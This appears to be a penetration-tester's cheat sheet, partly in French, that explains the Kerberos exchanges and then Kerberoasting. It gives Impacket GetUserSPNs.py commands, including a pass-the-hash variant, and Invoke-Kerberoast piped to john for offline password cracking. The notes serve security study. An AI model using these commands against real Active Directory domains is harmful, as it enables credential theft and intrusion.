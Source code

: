 TGT = Ticket Granting Ticket

TGS = Ticket Granting Service

PAC = Privilege Attribute Certificate

secret du KDC = le mot de passe du compte `krbtgt`

1. Authentication Service (AS) : Le client doit s’authentifier auprès du KDC

`KRB_AS_REQ`

`KRB_AS_REP`

2. Ticket-Granting Service (TGS) : Il doit ensuite demander un ticket permettant d’accéder au service

`KRB_TGS_REQ`

`KRB_TGS_REP`

3. Accès au service (AP) : Il communique enfin avec le service en lui fournissant le ticket

`KRB_AP_REQ`

`KRB_AP_REP`

#### Usefull Kerberos commands :

List cached tickets:

```
klist
```



### Kerberoasting

The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts. Thus, part of these TGS tickets are encrypted with keys derived from user passwords (weaker than the long randoms passwords used by computer accounts). As a consequence, their credentials could be cracked offline. To exploit we have to search for AD users having at least one SPN, ask TGS for theses accounts and extract the cyphered part (crackable with john).

Some scripts automate the process:

* Impacket [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py)
```
GetUserSPNs.py -request -dc-ip <IP> <DOMAIN.FULL>/<USERNAME> -outputfile hashes.kerberoast # Password will be prompted
GetUserSPNs.py -request -dc-ip <IP> -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USERNAME> -outputfile hashes.kerberoast # Pass The Hash
```

* [Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)
```
Invoke-Kerberoast -domain adsec.local | Export-CSV -NoTypeInformation output.csv
john --session=Kerberoasting output.csv
```
